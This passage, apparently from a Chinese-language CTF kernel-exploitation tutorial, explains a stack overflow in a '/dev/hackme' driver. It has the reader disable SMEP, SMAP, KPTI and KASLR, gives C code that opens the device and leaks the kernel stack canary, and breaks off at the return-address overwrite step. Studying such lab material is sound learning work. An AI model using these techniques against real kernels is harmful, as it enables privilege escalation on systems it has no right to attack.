 ```c
    return -14LL;
  _memcpy(buf, &hackme_buf, size);
  return size;
}
```

漏洞很明显，我们可以从内核栈上读写最多`0x1000`的数据，这造成了溢出。

## First step：ret2usr

我们从最简单的开始学习，在用户态，当`ASLR`和`NX`都关闭时，我们可以想到常用的利用方式`ret2shellcode`。同样，当关闭几乎所有的保护后我们也可以返回到自己写的代码中。这个过程在内核态执行用户空间的代码，所以被称为`ret2usr`。

在开始之前，修改`run.sh`除去`+smep`、`+smap`、`kpti=1`、`kaslr`并添加`nopti`和`nokaslr`。

### Open the device

在交互之前我们需要打开设备。

```c
int global_fd;	// 为了让其他函数能与设备交互

void open_dev() {
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0) {
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}
```

### Leak canary

因为还有栈保护，所以还要先leak canary信息。

```c
unsigned long canary;

void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    canary = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", canary);
}
```

### Overwrite return addr

